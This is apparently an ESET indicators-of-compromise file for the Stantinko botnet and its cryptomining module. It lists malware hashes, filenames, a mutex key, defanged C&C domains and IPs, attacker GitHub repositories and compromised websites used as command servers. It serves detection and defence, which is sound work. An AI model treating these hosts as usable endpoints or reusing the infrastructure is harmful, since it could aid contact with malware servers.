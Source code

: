 :toc:

= Stantinko Indicators of Compromise (IOCs)


== Stantinko botnet adds cryptomining to its pool of criminal activities (blog)

These IoCs are related to the blog
https://www.welivesecurity.com/2019/11/26/stantinko-botnet-adds-cryptomining-criminal-activities/[_Stantinko
botnet adds cryptomining to its pool of criminal
activities_] published on https://www.welivesecurity.com[WeLiveSecurity]
November 26th 2019.

=== ESET detection names

- Win32/CoinMiner.Stantinko
- Win64/CoinMiner.Stantinko

=== Hashes

Hashes can be found in the following files:

- SHA-1: link:cryptominer/samples.sha1[`samples.sha1`]
- MD5: link:cryptominer/samples.md5[`samples.md5`]
- SHA-256: link:cryptominer/samples.sha256[`samples.sha256`]

=== Filenames

- `api-ms-win-crt-io-l1-1-0.dll`
- `libcr64.dll`
- `C:\Windows\TEMP\%RANDOM%\%RANDOM_GUID%.dll`

=== Mutex name and RC4 key

- `3,141592653589793238462643`

=== YouTube URLs with mining proxy configuration data

- `\https://www.youtube.com/watch?v=kS1jXg99WiM`
- `\https://www.youtube.com/watch?v=70g4kw2iRGo`
- `\https://www.youtube.com/watch?v=cAW1xEpyr7Y`
- `\https://www.youtube.com/watch?v=6SSKQdE5Vjo`
- `\https://www.youtube.com/watch?v=fACKZewW22M`
- `\https://www.youtube.com/watch?v=FDQOa5zCv3s`
- `\https://www.youtube.com/watch?v=TpyOURRvFmE`
- `\https://www.youtube.com/watch?v=2fpiR4NIpsU`
- `\https://www.youtube.com/watch?v=TwnD0Kp_Ohc`
- `\https://www.youtube.com/watch?v=wJsbj8zPPNs`

=== IP addresses of mining proxies

- 3.16.150[.]123
- 3.16.152[.]201
- 3.16.152[.]64
- 3.16.167[.]92
- 3.16.30[.]155
- 3.16.31[.]23
- 3.17.167[.]43
- 3.17.23[.]144
- 3.17.25[.]11
- 3.17.59[.]6
- 3.17.61[.]161
- 3.18.108[.]152
- 3.18.223[.]195
- 13.58.182[.]92
- 13.58.22[.]81
- 13.58.77[.]225
- 13.59.31[.]61
- 18.188.122[.]218
- 18.188.126[.]190
- 18.188.249[.]210
- 18.188.47[.]132
- 18.188.93[.]252
- 18.191.104[.]117
- 18.191.173[.]48
- 18.191.216[.]242
- 18.191.230[.]253
- 18.191.241[.]159
- 18.191.47[.]76
- 18.216.127[.]143
- 18.216.37[.]78
- 18.216.55[.]205
- 18.216.71[.]102
- 18.217.146[.]44
- 18.217.177[.]214
- 18.218.20[.]166
- 18.220.29[.]72
- 18.221.25[.]98
- 18.221.46[.]136
- 18.222.10[.]104
- 18.222.187[.]174
- 18.222.198[.]38
- 18.222.213[.]203
- 18.222.253[.]209
- 18.222.56[.]98
- 18.223.111[.]224
- 18.223.112[.]155
- 18.223.131[.]52
- 18.223.136[.]87
- 18.225.31[.]210
- 18.225.32[.]44
- 18.225.7[.]128
- 18.225.8[.]249
- 52.14.103[.]72
- 52.14.221[.]47
- 52.15.184[.]25
- 52.15.222[.]174

== Statinko -- Teddy Bear Surfing Out of Sight (white paper)

These IoCs are related to ESET's investigation on Stantinko. The full report
about Stantinko is available at
https://www.welivesecurity.com/wp-content/uploads/2017/07/Stantinko.pdf.

The condensed blog post about Stantinko is available at
https://www.welivesecurity.com/2017/07/20/stantinko-massive-adware-campaign-operating-covertly-since-2012/.

These IoCs are also available in MISP event format:
link:stantinko.misp-event.json[`stantinko.misp-event.json`]

=== Samples

.APIHelper.dll

----
84A055D8E4BDF1F140C4DCA3D2D7738027E07115
----

.APIHelper_64.dll

----
BCBC28219D47097FBCE312DA450B84079689A0BF
----

.bhctrl32.exe

----
125CEDE073FC3578C9D4C92A858B92C6D551BB0E
A2956B05909E48F82F6FC9A690A64D4F0B2A61C8
D40CAC5DB9A23B372E606039DCE080BCFB9830CC
FE25D078DFD99091C3EF189567728BD087750FAE
----

.biosysrt.dll

----
3A543E3CFE380AE404759FCCE4B3E25DE52246C9
----

.bstreamsvc.dll

----
1D50CF65D326545B02C3EAEF99FAEAAA5629AE94
C7A04F5A7A09D9674B2CA50EDAD882E050785169
EAE094FDA8D431CB8CDEFC9687C8B4CB1B7E2A22
----

.bstreamsvc_setup.dll

----
B8AA1B3DEC9B4B16B6A4BC274C093EED09E2BC4C
----

.clearcache.dll

----
899A71BAABFCF47F5FE31A651271D038C2619EDF
----

.create_certificate.dll

----
729B6F4D97F76DCE0F474D7D9F5E15FDD01E4998
----

.certificate.dll

----
DB83BE912A25D99F501212FED8FA45672D362E67
----

.d3dadapter.dll

----
11354E648E41529972E6696631E035CF8BF0C537
1817B2B958FE7FCE0D0383B8D304BD55A6FECEB2
1BAF0A6E8C9DDBDFFF825686C2BA7E846FB65AEC
272AECA0B66ED1DEA435059481C8EE7045E44E23
31883581FE416A454A00B223357ECAF6E4353497
31E119C3D252C2AE1C18E554DCF47ED359A67AD2
36E11C5BFA3C05094B3FBBA39697533F63B299DB
52D9D26EF37A3B42A0D68E4383B73FD4D2B10018
56696CA2E4C85541909391E086E7D934601656D8
587659A8AB5617594F8064EF16CAAD082A773C7A
84D9F7F46810B1ADD636B07C4068517AD1B3FD07
8843F69F530A712568567A2D53DA01889FF9ACB9
957C69E52E2A3A16838051598A7B2E5BA3D54836
ACAF69EFC397031A7CA14E8E4B6E2D9E9DE28892
D2770182CE996454AA8EAFA5C96629ACCF05A06A
D6A59F6DD9E39EE26059C43D2E097A823770E161
F9DC53A63D721D0936BE8C04331E341AC2558162
----

.d3dadapter dropper

----
B14AF8814FE0398FFA8F5B0D76141B576E5CCE27
FBDBABC6C3E274B99BDFDAB79E53B29ECCF114EF
----

.fdclient.dll

----
0876F8D54F152B1ABA741004635C53A835007226
51196DD8D364947B17ACFA3EFCFC1AFA86CD44C3
886749473A29B887E8F8A79A7C3FB620D30BCB01
96B3A1FDFE1AA113B7791C15A57CFBBD360CC223
B35DA904E72868361954A27E87521EE4E0FD0AC6
B705F104DE0E8E43DA9AC13BA5F42DD3DA21037B
D06DE631AAA7A7BC1FFFA12054111BEC2A7D838D
----

.FileTour related files

----
06EB77205E4822A4369E9C7B43F4554248DD6FFA
2E9F4C6BD233799AA2AFEC9C440C737AE4114DDE
30139FB0B37472D02FE5ECB62F211CCFE727FD6D
40863793206684A021ABB1E24D524FDDF8410AB6
7167649EB03569C2643BCF2C2F2164EA0D803A8D
8E3D8606ED916152B8F70D5E38026569BB7A20C4
A5C3076F4E38A9E497F120558DB669FDD139E702
D274FD9C8AFC8FB2DAE8E81E4F6CC41592C385DF
----

.ghstore.exe

----
E2F2532632A0ACBC6367716F82F7B62D64B896B5
----

.ihctrl32_setup.dll

----
C9C2D2239C5371DCD6A36AE66380B615578E5B04
----

.ihctrl32.dll

----
032B324368B3854F4EC96BE74E067D146B43F856
0B64F28DD56D4869ED7ECAEA81D0F7E6DCBEFA36
4FD7A5F602E4645EB8F21BAA127EDEB9C76CCB50
728718D1AD01B07FCD31C0A4FA2C975B98DB29F1
742EA38F09FF53626194D8B411E290B09F93EDA4
80C4A4FD10409742C10B4399AD7C31AFEA726A8D
B6CFDA9777EEF218E36A1A082C175CB6121CDB48
BC126956059188E2155113D2F77D5FF632B9D420
CB89F13D6EFBB8EBA87AB3FE3AC92A0AA738AD2D
D00C953FD7D6CB686036BB264D52F38C2CECEA76
F74ED6DFB1719924197459D7E5CFDF00568B86FB
----

.ir16_32.dll

----
8EF4E038E14E2C853DD304DF78C3CF09176ADB65
962AA58834B2D071D3F8C68E893D3FDC2FEE32F3
9F79F982F8EEF45D5A1FC3120C5DEA2D8EC618A0
B85E4652910D413D19718B819736B44133FDB332
C269C83B3D18C01DAF9C296A198323889D339B9F
C9F1232DC368A828F576D6F9E8922C0DF27A33DB
E8D9F9A6BEC99BE13FFDF3D2F5EF74EF634EB508
----

.kbdmai.dll

----
0FA4A2C2F41056E071097BF9DB5312E820E3512A
199DA0C38EB00E495D864D95F078912EEB35639A
5287CE5827FFEEC6957F1F6DC769D25482479EE3
DA4634BD5B96519697D06D9A8F18B735302A65EA
----

.kbdmai dropper

----
526B86CA02CCEAF5D23C467C1D1F81DD0A36E4B9
E79ACFBF8D339507373B892700B27B3B795E424F
----

.KBDMAI_ExtInstaller.dll

----
343E52B0D30775305951252101526EAEDC8A0D01
D212F66683F29B5A88AFE2B6B9450DAE3DD73EB4
----

.npapihelper.dll

----
1ACCD83D48F041FF362C2B8F2DCF96D6F1583168
----

.optsatadc.dll

----
3B2D848030289F8F569C80193DD940FA3AE396C2
4D3A703DB690E975540D6D29CDAB2F75FBBCB61C
ADE31CC1161C06A968B68C15E4CE249AE82BC35D
BE756BA78F52061AE745FC3D01D97300F06F70F6
----

.optsatadc_setup.dll

----
326406A85486418B0DF5878B38A2436F11082411
----

.remote_safe_surfing_flag

----
A9C96E00C1D1B7AAEE01C30719C5068BBE196B20
----

.themctrl.dll

----
03A5849E0DBE89E0727C8C37F4259623C9C131E3
544ED609F59C6FB2C96A566631293109172375F9
6004089B1678104252E02E272443A993106C912B
6B0FC0F7BCF63DB2778634644F5819E6247AD524
6DB4BE7100B317FD9CBC136DC95C4017F6D56612
F09352158B443FA3DB0567EF4147D94D37DBDD09
F3846AEF680EAA1931F75977B2ADD060D2BD3167
----

.udsetup.exe

----
52F44D45563944CF7735BCB6F0C448C3E9F19D04
----

.udservice.exe

----
0A7C1817A49E9C258DF7B3CFC416BC16A8D28C0B
352E05DC607AF2EE7CD3BD3FFCC546D3D29F786E
----

.udservice_dropper

----
0146F1042B360C8080D4D05FF523C3B80AC88069
EF3AFF545C48F658C021DC3E5F574AED50BE726E
----

.vp9core.dll

----
C897A193A13A60CC98AAAD9CB9E18AECB68797DE
FF9181C441AAA9108BC35B45B989B2725AD4BBF9
----

.wbiosrvp.dll

----
420A98F44832C11D4E56037F1F267207830BA03B
8750E5E2647C6A9DAB1E0AE60CC42246DA2186B2
F613948CE8F5358B9940EE22E9FCFC26F171637D
----

.wlanmgr.dll

----
10E2B8A796766A6F83278799BE16B1BF47544F2B
12553394AE9C099D9079DF19F0680CBE5CD780D4
1C8D54F0DB1136FA067F88A0AD8F0A8225854E72
3AF1739A03B3A70705E44049B008DF34290CE3BD
6141110309EF5C08DEC5746DBFB25B6302C6D887
6FAE5E3BB8910FCCF89208E3377C8AAD802D9BF8
7743BCAB7A2D77F83197F31A01C754C73BE46EAA
----

.wsaudio.dll

----
138ADDB8845C5F1999E2CCADB3BB7FC57D8ACCE8
2A9A15ED58CD54142E149DB48511B8FD4EFB1E89
5B54776D3C0085596ED7FF695A90B299B575DAFB
758FE5DF8EDAC61101AF35AA1F4440DBEC617F25
8BBA63FD06FC0948579A0F780EC4C0916F265D29
b84598b0329dde4b93fc32be2abac020f7b1e7d8
----

.Linux/TrojanProxy.Stantinko.A

----
C55918ADC6D2E74809777B306E361EA01A35FC05
----

.wsaudio_setup.dll

----
CD47C020BF420964BE329A3F2BC7FEE83BD2FACE
----

.yasetup.exe

----
D1F774D54BCC176AC33900085B27F62A1732B9B7
----


.get_hdd.dll

----
F90BBF5444F42B383B26350231DFDA002911801A
----

.remove_plugins_installer.dll

----
AD4E55CF03F9C24ABE2C533EE33FACD7C70A2EDA
C9DE95EC81BE649D796C73B5BC90CAC95C5EBBD8
----

.brutplugin.dll

----
5FA986F18BDDA5C6AD4C2F2CF9608752AC797377
----

.facebook_bot.dll

----
D643F426B9FAF032FF5AF7D070D2E5115B3C2E46
----

.radmin.dll

----
BFC7C0383CD87382575543C89E99EB41898F59EB
----

.zaxar.dll

----
C05D2646029DF48E262061DEF69DD8A55BF40F75
----

.search_parser.dll

----
2E726A679D32D6A29ECC7A9215409DEFA3085150
----

.Malicious Browser Extensions

----
The Safe Surfing
Teddy Protection
----

.The Safe Surfing NaCl binaries

----
340622C8D335CDE73EEAA96F461440EDCB7D4C52
43A108A22925282D9AC02B8752EACF796B532C1E
49603FEC4DFA0AC5AF3300039522855920D84530
----

=== C&C servers

[option="header"]
.Stantinko's C&C servers
|=====
|Family name | Component |  Domain
|Adstantinko | udsetup.exe | clients1.ultimate-discounter[.]com
|Adstantinko | udsetup.exe | clients2.ultimate-discounter[.]com
|Adstantinko | udsetup.exe | clients3.ultimate-discounter[.]com
|Browser Extension | APIHelper | apihelper[.]org
|Browser Extension | The Safe Surfing | safesurfing[.]me
|Browser Extension | Teddy Protection (Lite) | teddy-protection[.]com
|Browser Extension | Teddy Protection (Lite) | superbear[.]pro
|Browser Extension | Teddy Protection (Lite) | teddysave[.]me
|Browser Extension | Teddy Protection (Lite) | judgebear[.]pro
|Browser Extension Downloader Service | ihctrl32.dll | icloudsrv[.]com
|Browser Extension Downloader Service | ihctrl32.dll | icloudsrv[.]org
|Browser Extension Downloader Service | ihctrl32.dll | icloudsrv[.]info
|Browser Extension Downloader Service | ihctrl32.dll | icloudsrv[.]net
|Browser Extension Downloader Service | themctrl.dll | robothemes[.]net
|Browser Extension Downloader Service | themctrl.dll | tmrobo[.]com
|Browser Extension Downloader Service | themctrl.dll | tmrobo[.]org
|Browser Extension Downloader Service | opsatadc.dll | hdr-group[.]org
|Browser Extension Downloader Service | opsatadc.dll | hdr-group[.]info
|Browser Extension Downloader Service | opsatadc.dll | hdr-group[.]net
|Linux Trojan Proxy | / | 185.28.22[.]22:81
|Linux Trojan Proxy | / | 195.226.218.[.]234:80
|Old Browser Extension Downloader Service | ir16_32.dll | wsslupdate[.]org
|Old Plugin Downloader Service | d3dadapter.dll | d3dupdate[.]com
|Old Plugin Downloader Service | d3dadapter.dll | mserrep[.]org
|Old Plugin Downloader Service | KBDMAI.dll | kbdmai[.]net
|Old Plugin Downloader Service | KBDMAI.dll | wupdateservice[.]us
|Old Plugin Downloader Service | wlanmgr.dll | wadgeotrust[.]com
|Plugin Downloader Service | wsaudio.dll | wsaudio[.]com
|Plugin Downloader Service | wsaudio.dll | wsaudio[.]net
|Plugin Downloader Service | wsaudio.dll | wsaudio[.]org
|Plugin Downloader Service | bstreamsvc.dll | vp9codec[.]com
|Plugin Downloader Service | bstreamsvc.dll | vp9codec[.]net
|Plugin Downloader Service | wbiosrvp.dll | biosysltd[.]com
|Plugin Downloader Service | wbiosrvp.dll | biosysltd[.]org
|PDS Plugin | get_hdd.dll | 185.28.22[.]22
|PDS Plugin | search_parser.dll | hxxp://raw.githubusercontent.com/brenev/collection/master/index
|PDS Plugin | brut_plugin.dll | 185.28.22[.]22
|PDS Plugin | facebook_bot.dll | 185.28.22[.]22
|PDS Plugin | radmin.dll | 93.188.161[.]17:8000
|Stantinko Installer | udservice.exe | update.ultimate-discounter[.]com
|Stantinko Installer | udservice.exe | udiscount[.]net
|Stantinko Installer | udservice.exe | ultimate-discounter[.]org
|Stantinko Installer | udservice.exe | upd-discounter[.]com
|Stantinko Installer | udservice.exe | udiscounter[.]org
|Stantinko Installer | udservice.exe | wannaupdate[.]com
|Stantinko Installer | ghstore.exe | ghosterystore[.]com
|Stantinko Installer | bhctrl32.exe | nvccupdate[.]com
|Stantinko Installer | redisd.exe | rdsbase[.]com
|=====

==== Stantinko GitHub repositories

----
hxxps://www.github.com/brenev/collection
hxxps://www.github.com/svetlanachudinovskih/core
hxxps://www.github.com/alexandra-ivanyan/png
hxxps://www.github.com/romochka-shevchenko-2015/rebranding
hxxps://www.github.com/elina-golubeva/style
hxxps://www.github.com/kurenkov2014/attachments
hxxps://www.github.com/lenusyashparteeva/losed_data
hxxps://www.github.com/varvarakayusova/images
hxxps://www.github.com/anatoly-mescheryakov/icons
hxxps://www.github.com/vlabygina/clipart
hxxps://www.github.com/grishenka-kobzar/promo
hxxps://www.github.com/kabanovmihail/static
hxxps://www.github.com/shapovalovnikolayy/static
hxxps://www.github.com/SaintJson/core
hxxps://www.github.com/umnoffvladislaw/core
----

==== IP Addresses

----
13.58.23[.]11
13.58.249[.]138
18.220.21[.]112
37.97.245[.]128
62.109.0[.]227
80.82.67[.]154
80.87.202[.]246
82.146.59[.]86
85.17.194[.]202
88.99.154[.]39
89.108.124[.]228
91.206.30[.]108
91.206.30[.]109
93.188.161[.]17
95.213.235[.]197
95.46.98[.]12
104.237.4[.]37
107.174.224[.]254
107.181.174[.]28
136.144.141[.]253
144.217.240[.]28
149.56.201[.]76
178.20.157[.]140
178.20.157[.]187
178.20.157[.]189
178.20.157[.]227
178.20.159[.]56
178.20.159[.]77
178.20.159[.]89
185.118.164[.]190
185.125.218[.]74
185.127.24[.]151
185.28.22[.]22	
185.28.22[.]69
185.47.62[.]128
185.48.239[.]11
185.86.76[.]113
195.226.218[.]234
204.155.30[.]72
210.16.101[.]206
217.12.203[.]18
----

==== List of compromised websites with their date of first appearance (Search parser C&C)

----
Jan 21, 2014 | hxxp://www.corsionlinemtpromozione.it/images/banners/b1/index.php
Jan 21, 2014 | hxxp://xn--elprincipenorteo-lub.com.ar/images/banners/b1/index.php
Jan 21, 2014 | hxxp://www.ucguabira.com/images/banners/b1/index.php
Jan 21, 2014 | hxxp://www.unioncasa.org/images/banners/b1/index.php
Jan 21, 2014 | hxxp://localhost/searchparser/index.php
Jan 21, 2014 | hxxp://www.unique7000.org/en/images/banners/b1/index.php
Feb 19, 2014 | hxxp://www.sfcu.com.au/sfcu/images/banners/b1/index.php
Feb 19, 2014 | hxxp://eventsbyexcellence.com/photography/images/banners/b1/index.php
Feb 19, 2014 | hxxp://grupoportusalud.net/images/banners/b1/index.php
Feb 19, 2014 | hxxp://missionlocalenyonspierrelatte.com/images/banners/b1/index.php
Feb 19, 2014 | hxxp://talsma-co.nl/images/banners/b1/index.php
Nov 5, 2014 | hxxp://scorzapesquisa.net/site/images/banners/b1/index.php
Nov 5, 2014 | hxxp://fotopercepcja.pl/images/banners/b1/index.php
Apr 16, 2015 | hxxp://cdvet.ch/images/banners/b1/index.php
Apr 16, 2015 | hxxp://www.menicon.fr/porteurs/images/banners/b1/index.php
Apr 16, 2015 | hxxp://topperclean.nl/images/banners/b1/index.php
Apr 16, 2015 | hxxp://iguabaonline.com.br/quasar/images/banners/b1/index.php
Apr 17, 2015 | hxxp://hlcl.org/joomla15/images/banners/b1/index.php
Apr 27, 2015 | hxxp://www.corsionlinemtpromozione.it/frigocontact/images/banners/b1/index.php
Apr 27, 2015 | hxxp://lucerne.websitewelcome.com/~trinityc/images/banners/b1/index.php
Apr 27, 2015 | hxxp://portal.antreprenor.upb.ro/images/banners/b1/index.php
Apr 27, 2015 | hxxp://gruppo89.org/images/banners/b1/index.php
Apr 27, 2015 | hxxp://79.170.44.132/nn-projects.co.uk/images/banners/b1/index.php
Apr 27, 2015 | hxxp://veterinariostijuana.com/images/banners/b1/index.php
May 30, 2015 | hxxp://xado1.md/images/banners/b1/index.php
Jun 10, 2015 | hxxp://z272081.infobox.ru/images/banners/b1/index.php
Jun 10, 2015 | hxxp://oyqrznx.wwwhl.ru/2014/images/banners/b1/index.php
Jun 23, 2015 | hxxp://bernadettejansen.nl/site/images/banners/b1/index.php
Jun 23, 2015 | hxxp://srpskicetnickipokret.org/scp/images/banners/b1/index.php
Jun 23, 2015 | hxxp://blau-weiss-grenzenlos.de/images/banners/b1/index.php
Aug 5, 2015 | hxxp://liceosilvestri.it/cms/images/banners/b1/index.php
Aug 10, 2015 | hxxp://esportesnovasoure.com.br/images/banners/b1/index.php
Aug 10, 2015 | hxxp://hotel-idol.com/tr/images/banners/b1/index.php
Aug 24, 2015 | hxxp://wiewiese.bauernhof-urlaub.or.at/images/banners/b1/index.php
Aug 24, 2015 | hxxp://www.swrs-weinsberg.de/images/banners/b1/index.php
Aug 27, 2015 | hxxp://hohnstorf-basketball.de/alt/images/banners/b1/index.php
Nov 26, 2015 | hxxp://www.ismailagenturen.com/images/banners/b1/index.php
Nov 26, 2015 | hxxp://judoclub2haine.be/images/banners/b1/index.php
Nov 26, 2015 | hxxp://moradiaecidadania.org.br/images/banners/b1/index.php
Nov 26, 2015 | hxxp://romsee-stavelot-romsee.be/images/banners/b1/index.php
Nov 26, 2015 | hxxp://parafia-srokowo.pl/images/banners/b1/index.php
Dec 4, 2015 | hxxp://soymocano54.com/images/banners/b1/index.php
Dec 4, 2015 | hxxp://sleepatastridlindgrensworld.se/images/banners/b1/index.php
Dec 4, 2015 | hxxp://antalyainsaatdergisi.com/images/banners/b1/index.php
Dec 4, 2015 | hxxp://www2.karate-st-georgen.at/images/banners/b1/index.php
Feb 23, 2016 | hxxp://ns2.huespedvirtualserver.com/images/banners/b1/index.php
Feb 24, 2016 | hxxp://www.uvdr-vg.hr/images/banners/b1/index.php
Feb 24, 2016 | hxxp://jason.shigadigsample.com/images/banners/b1/index.php
Feb 24, 2016 | hxxp://informatikundgesellschaft.de/joomla/images/banners/b1/index.php
Apr 20, 2016 | hxxp://scuolasanfrancescodassisi.net/images/banners/b1/index.php
Apr 20, 2016 | hxxp://gesund-bewegen.ch/cms/images/banners/b1/index.php
Apr 20, 2016 | hxxp://quali-kleen.com/taste/images/banners/b1/index.php
Apr 20, 2016 | hxxp://kevin-drieschner.de/feuerwehr_cms/images/banners/b1/index.php
Apr 20, 2016 | hxxp://sv-limbach.de/images/banners/b1/index.php
Apr 20, 2016 | hxxp://wittmund-restaurant-residenz.de/images/banners/b1/index.php
Apr 20, 2016 | hxxp://old.novedvory.eu/dokumenty/banners/b1/index.php
Apr 20, 2016 | hxxp://www.parkbetreuung-margareten.at/cms/images/banners/b1/index.php
Apr 20, 2016 | hxxp://www.lambertrentals.com/portal/images/banners/b1/index.php
Apr 20, 2016 | hxxp://www.goldundpartner.at/images/banners/b1/index.php
Apr 20, 2016 | hxxp://egypttoursgate.com/family-holidays-luxury-vacations/images/banners/b1/index.php
Apr 20, 2016 | hxxp://pepijnenvalerie.nl/joomla/images/banners/b1/index.php
Apr 20, 2016 | hxxp://kmz-buchen.de/joomla/images/banners/b1/index.php
May 25, 2016 | hxxp://mobilhome.montourey.free.fr/images/banners/b1/index.php
Jun 23, 2016 | hxxp://sailbajaadventures.com/images/banners/b1/index.php
Jun 23, 2016 | hxxp://weddingsbeautiful.com.mx/weddings/images/banners/b1/index.php
Jul 1, 2016 | hxxp://s17drohobych.freehostia.com/images/banners/b1/index.php
Jul 1, 2016 | hxxp://zharyk.com.kz/rus/images/banners/b1/index.php
Jul 4, 2016 | hxxp://otmetka5ballov.ru/images/banners/b1/index.php
Jul 18, 2016 | hxxp://parafia-srokowo.pcspace.pl/images/banners/b1/index.php
Jul 18, 2016 | hxxp://www.florestal.gov.br/pngf/images/banners/b1/index.php
Jul 18, 2016 | hxxp://multfestas.com.br/2013/images/banners/b1/index.php
Jul 31, 2016 | hxxp://asti.bplaced.net/images/banners/b1/index.php
Aug 4, 2016 | hxxp://yorkshire-chimneys.co.uk/images/banners/b1/index.php
Aug 4, 2016 | hxxp://regionarequipa.gob.pe/dependencias/grcet/images/banners/b1/index.php
Aug 4, 2016 | hxxp://pescarafclive.altervista.org/images/banners/b1/index.php
Aug 4, 2016 | hxxp://www.powisstreetdentalpractice.com/images/banners/b1/index.php
Aug 4, 2016 | hxxp://mytrade-agriculture.com/images/banners/b1/index.php
Aug 4, 2016 | hxxp://alexincerti.xoom.it/images/banners/b1/index.php
Aug 9, 2016 | hxxp://zarin-daneh.com/images/banners/b1/index.php
Aug 23, 2016 | hxxp://explora.ulagos.cl/cienciaviva/images/banners/b1/index.php
Aug 26, 2016 | hxxp://d2062745.instant.xoom.it/siteapps/66587/htdocs/images/banners/b1/index.php
Aug 26, 2016 | hxxp://waldwichtel-haemelerwald.de/images/banners/b1/index.php
Sep 2, 2016 | hxxp://royerodistrilab.com/nelsonroyero/images/banners/b1/index.php
Sep 12, 2016 | hxxp://152.74.9.14/UNITEP/images/banners/b1/index.php
Sep 12, 2016 | hxxp://vinculacion.coparmexcoahuila.org.mx/images/banners/b1/index.php
Sep 12, 2016 | hxxp://kreds19-frederikshavn.dk/images/banners/b1/index.php
Sep 12, 2016 | hxxp://mult.chandra.ac.th/cw/ge/images/banners/b1/index.php
Sep 13, 2016 | hxxp://m2mobili.com/images/banners/b1/index.php
Sep 13, 2016 | hxxp://rha93.free.fr/images/banners/b1/index.php
Sep 16, 2016 | hxxp://l2campus.com/images/banners/b1/index.php
Oct 5, 2016 | hxxp://codigosurbanos.com/v4/images/banners/b1/index.php
Oct 6, 2016 | hxxp://codigosurbanos.com/v4/images/banners/b1/index_n.php
Oct 6, 2016 | hxxp://feuerwehr-hartenstein.de/images/banners/b1/index.php
Oct 7, 2016 | hxxp://st-johannesstift.de/images/banners/b1/index.php
Oct 7, 2016 | hxxp://scrisoaredelamosul.ro/santa/images/banners/b1/index.php
Oct 7, 2016 | hxxp://oneshote.com/Site/joomla/images/banners/b1/index.php
Oct 13, 2016 | hxxp://conceptosgrupocreativo.com/visionamosSalud/images/banners/b1/index.php
Oct 14, 2016 | hxxp://www.tangosex.it/images/banners/b1/index.php
Oct 17, 2016 | hxxp://smksoretulungagung.sch.id/images/banners/b1/index.php
Oct 19, 2016 | hxxp://shapinglivesconference.com/images/banners/b1/index.php
Oct 19, 2016 | hxxp://vn-net29.homedns.org/fewo-primbs/images/banners/b1/index.php
Oct 20, 2016 | hxxp://hinanumbufoundationgh.org/images/banners/b1/index.php
Oct 20, 2016 | hxxp://dorazio.altervista.org/images/banners/b1/index.php
Oct 20, 2016 | hxxp://k3bweb78.altervista.org/images/banners/b1/index.php
Oct 20, 2016 | hxxp://pepekswiata.com.pl/starealejare/images/banners/b1/index.php
Oct 20, 2016 | hxxp://www.chantalligraphics.com/health101.old/images/banners/b1/index.php
Oct 20, 2016 | hxxp://banchio.com/pendientes/images/banners/b1/index.php
Oct 20, 2016 | hxxp://southswimming.com/content/images/banners/b1/index.php
Oct 20, 2016 | hxxp://edomerlomat.altervista.org/images/banners/b1/index.php
Oct 24, 2016 | hxxp://roanokecares.com/images/banners/b1/index.php
Oct 24, 2016 | hxxp://cadexchuquisaca.org.bo/images/banners/b1/index.php
Oct 25, 2016 | hxxp://laboratoriochimicoveneto.it/lcv/images/banners/b1/index.php
Oct 25, 2016 | hxxp://142-4-18-114.unifiedlayer.com/images/banners/b1/index.php
Oct 25, 2016 | hxxp://bobonana.com/familien/images/banners/b1/index.php
Oct 26, 2016 | hxxp://panaderiasantalibrada.com/main/images/banners/b1/index.php
Oct 26, 2016 | hxxp://notre370z.com/images/banners/b1/index.php
Oct 26, 2016 | hxxp://barangayugong.com/images/banners/b1/index.php
Nov 3, 2016 | hxxp://alkiviadistours.gr/tour/images/banners/b1/index.php
Nov 8, 2016 | hxxp://syl-diavitikon-nthess.gr/images/banners/b1/index.php
Nov 8, 2016 | hxxp://lksavvas.gr/images/banners/b1/index.php
Nov 9, 2016 | hxxp://tagaras.gr/images/banners/b1/index.php
Nov 9, 2016 | hxxp://debian.itbiz.gr/enoria_kastaneris/images/banners/b1/index.php
Nov 9, 2016 | hxxp://energymix.xp3.biz/joomla/images/banners/b1/index.php
Nov 10, 2016 | hxxp://archiv.nezavisli-zruc.cz/images/banners/b1/index.php
Dec 1, 2016 | hxxp://kapatex.iluze.com/images/banners/b1/index.php
Dec 15, 2016 | hxxp://derecskeikutyaiskola.hu/images/banners/b1/index.php
Dec 15, 2016 | hxxp://alhwaidi4hybrid.com/ar/images/banners/b1/index.php
Dec 15, 2016 | hxxp://mst.etravelsystem.com/eztproperty/images/banners/b1/index.php
Dec 15, 2016 | hxxp://alzwea.com/itech-iraq.com/images/banners/b1/index.php
Dec 20, 2016 | hxxp://zawodnicy.baseball.pl/images/banners/b1/index.php
Dec 21, 2016 | hxxp://intranet2.marne.chambagri.fr/joomla/images/banners/b1/index.php
Dec 21, 2016 | hxxp://www.daydream-lab.com/flsh/main/images/banners/b1/index.php
Dec 21, 2016 | hxxp://rouken.sakura.ne.jp/fittest/images/mod.php
Dec 21, 2016 | hxxp://rouken.sakura.ne.jp/fittest/images/banners/b1/index.php
Dec 21, 2016 | hxxp://asandoosh.com/images/banners/b1/index.php
Dec 21, 2016 | hxxp://smabugisiah.edu.my/images/banners/b1/index.php
Dec 26, 2016 | hxxp://alhayat-aljadedah.com/images/banners/b1/index.php
Dec 26, 2016 | hxxp://leadershipacademy.ps/english/images/banners/b1/index.php
Dec 26, 2016 | hxxp://www.agencija-jajce.ba/arabic/images/banners/b1/index.php
Dec 26, 2016 | hxxp://vanocnidarky.provsechny.net/images/banners/b1/index.php
Dec 26, 2016 | hxxp://millerjw.com/czechpoint/images/banners/b1/index.php
Dec 26, 2016 | hxxp://edomerlomat.altervista.org/images/banners/b1/index.php
Dec 26, 2016 | hxxp://krystiank.home.pl/autoinstalator/joomla15/images/banners/b1/index.php
Dec 27, 2016 | hxxp://tommasobocchetti.it/images/banners/b1/index.php
Jan 30, 2017 | hxxp://vmedia.mk/GinekomedikaCalculators/images/banners/b1/index.php
Jan 30, 2017 | hxxp://xn----7sbpbmda7aknrei7dwb9f.xn--p1ai/images/banners/b1/index.php
Jan 30, 2017 | hxxp://vehicleteams.scripts.mit.edu/home/images/banners/b1/index.php
Jan 30, 2017 | hxxp://dvz.ppi.net.ua/images/banners/b1/index.php
Jan 31, 2017 | hxxp://irina-petrenko.by/images/banners/b1/index.php
Jan 31, 2017 | hxxp://usreturns.com/images/banners/b1/index.php
Jan 31, 2017 | hxxp://wolnywww.instytutslowacki.pl/images/banners/b1/index.php
Jan 31, 2017 | hxxp://www.kalamari-notes.gr/joomla/images/banners/b1/index.php
Jan 31, 2017 | hxxp://bukaeva.lg.ua/images/banners/b1/index.php
Jan 31, 2017 | hxxp://xier.avalon.biz.ua/images/banners/b1/index.php
Feb 15, 2017 | hxxp://xray.bmc.uu.se/spb/images/banners/b1/index.php
Feb 15, 2017 | hxxp://aupair-germany.eu/inhalt/images/banners/b1/index.php
Feb 15, 2017 | hxxp://vicaweb.talentoshow.com/Joomla/images/banners/b1/index.php
